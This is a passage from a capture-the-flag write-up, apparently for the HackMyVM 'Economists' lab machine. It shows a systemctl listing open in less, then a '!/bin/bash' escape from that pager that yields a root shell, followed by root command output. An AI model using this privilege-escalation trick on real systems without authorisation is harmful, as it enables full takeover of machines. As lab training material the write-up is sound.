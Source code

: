 ```bash
             ├─cron.service 
             │ └─655 /usr/sbin/cron -f
             ├─polkit.service 
             │ └─676 /usr/lib/policykit-1/polkitd --no-debug
             ├─networkd-dispatcher.service 
             │ └─675 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
             ├─multipathd.service 
             │ └─554 /sbin/multipathd -d -s
             ├─accounts-daemon.service 
             │ └─651 /usr/lib/accountsservice/accounts-daemon
             ├─ModemManager.service 
             │ └─721 /usr/sbin/ModemManager
             ├─systemd-journald.service 
             │ └─358 /lib/systemd/systemd-journald
             ├─atd.service 
             │ └─692 /usr/sbin/atd -f
             ├─unattended-upgrades.service 
             │ └─707 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
             ├─ssh.service 
             │ └─728 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
             ├─snapd.service 
             │ └─681 /usr/lib/snapd/snapd
             ├─vsftpd.service 
lines 1-53

```

To gain a root shell we should enter the following in less: `!/bin/bash`
```bash
!/bin/bash
```
A root shell is shown and we can own the whole machine. Let's capture everything as we should do for the OSCP exam.
```bash
root@elite-economists:/home/joseph# whoami;hostname;id;ip a
root
elite-economists
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:e0:55:e3 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.12/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 457sec preferred_lft 457sec
    inet6 fe80::a00:27ff:fee0:55e3/64 scope link 
       valid_lft forever preferred_lft forever

```
And then capture the root flag.
![Flag2](/assets/img/WriteUp/HackMyVM/Economists/Pasted image 20230914100219.png){: width="700" height="400" }


